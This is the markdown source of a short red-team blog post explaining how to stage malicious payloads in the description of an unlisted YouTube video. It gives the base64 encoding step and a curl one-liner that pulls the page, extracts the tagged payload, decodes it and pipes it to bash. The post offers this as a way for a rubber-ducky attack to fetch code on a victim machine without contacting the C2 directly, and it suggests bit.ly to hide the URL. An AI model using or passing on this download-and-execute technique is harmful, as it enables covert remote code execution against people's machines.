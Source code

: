 ```yaml
---
layout: post
title: Hosting malicious payloads on Youtube
description: Use Youtube to host your malicious payloads
keywords: payload,youtube,shell 
disqus: true
tags: [TRICKS]
categories: RCE 
---
```

#### Why that? 
It's a trick created during a red team mission, where we have a rubber ducky, which will download a bash script to run the [GTRS](https://github.com/mthbernardes/GTRS) on the victm machine, but we have problem, the traffic with the C2 will be safe using the [GTRS](https://github.com/mthbernardes/GTRS), but the infected machine need to talk directly to the C2 to get our payload, so we had the idea to use Youtube to host our bash payload.

### Recipe of Rataria
First of all, create your payload with powershell, bash, python or whatever language you want, then encode it in base64.

```bash
base64 -w0 payload
```

Now upload a video on youtube, make it unlisted and on the video description insert your payload encoded, BUT to make your life easier add a tag at the start and end of the payload, like this, `sCmD[YOUPAYLOAD]eCmD`, and that's all, now all you need is execute this command on your rubber ducky payload

```bash
curl https://www.youtube.com/watch?v=VIDEOID | sed -n 's/.*sCmD\(.*\)eCmD.*/\1/p' | base64 -d | bash
```

A tip to shrink the url, is use [bit.ly](https://bit.ly) which is used by twitter.

